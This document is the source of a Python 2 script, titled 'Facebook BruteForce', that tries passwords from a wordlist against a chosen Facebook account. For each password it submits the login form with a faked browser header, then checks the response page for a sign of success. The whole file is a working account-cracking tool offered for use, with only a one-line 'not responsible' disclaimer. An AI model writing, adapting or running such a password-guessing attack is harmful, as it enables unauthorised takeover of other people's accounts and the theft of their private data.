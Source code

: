 # yoijb#!/usr/bin/python
# -*- coding: utf-8 -*-
        
        
        #############################################
        #                                           #
        #    Facebook BruteForce, by S O M I      #
        #    Facebook Contact:     SOMI MUSICAN          #
        #    YouTube channel:Sommi Rapper,Somi Extra#                                       
        #############################################


import time
import os

os.system('clear')
time.sleep(0.5)
try:
    import mechanize
except ModuleNotFoundError:
    print '[!] Module >Mechanize< Not Found!\n    This module is only available in python 2.x :/\n    Please install mechanize (pip install mechanize) and run the program with python2'
    exit()

time.sleep(0.5)
user = raw_input('[⚡] Target Username/ID/Email >>?? ')
time.sleep(0.8)
wrdlstFileName = raw_input('\n[⚡] Wordlist Type pk.txt,Somi.txt >> ')
try:
    wordlist = open(wrdlstFileName, 'r')
except FileNotFoundError:
    print ('\n[!] File Not Found!')
    exit()

time.sleep(0.8)
print '\n\nCracking '+user+' Now...'

time.sleep(1)
print '\nIM NOT RESPONSIBLE FOR ANY MISS USE Somi\n'
for password in wordlist:
    if password == '' or password == ' ':
        pass
    else:
        try:
            browser = mechanize.Browser()
            browser.set_handle_robots(False)
            browser.addheaders = [('User-agent', "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36")]
            fb = browser.open('https://facebook.com')
            dos = open('Facebook-Log.txt', 'w+')
            browser.select_form(nr=0)
            browser.form['email'] = user
            browser.form['pass'] = password
            browser.method = 'POST'
            browser.submit()
            dos.write(browser.open('https://facebook.com').read())
            dos.seek(0)
            text = dos.read().decode('UTF-8')
            if text.find('home_icon', 0, len(text)) != -1:
                print '[+] Password Found > '+password 
                dos.close()
                os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
                exit()
            else:
                print "[!] Wrong Password! > "+str(password)
        except KeyboardInterrupt:
            print '\n#############################################\n   Exiting..'
            dos.close()
            os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
            exit()

time.sleep(1)
print 'Sorry, none of the passswords in your wordlist is right.'
time.sleep(0.8)
dos.close()
os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
exit()
